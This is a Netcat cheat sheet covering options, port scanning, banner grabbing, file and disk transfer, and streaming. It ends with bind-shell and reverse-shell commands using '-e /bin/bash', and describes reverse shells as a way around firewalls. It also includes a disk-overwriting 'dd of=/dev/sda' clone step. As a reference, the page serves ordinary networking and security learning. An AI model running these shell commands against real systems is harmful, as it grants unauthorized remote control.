 ```yaml
---
title: Netcat
slug: netcat
description: Versatile tool for port scanning and network data transfer.
categories: ["Reconnaissance", "Network Security"]
bgColor: "bg-gray-100"
textColor: "text-gray-800"
top: false
---
```


  title: "Netcat",
  category: "Exploitation",
  slug: "netcat",
};

## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file "file.txt" from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file "file.txt" from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission
to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
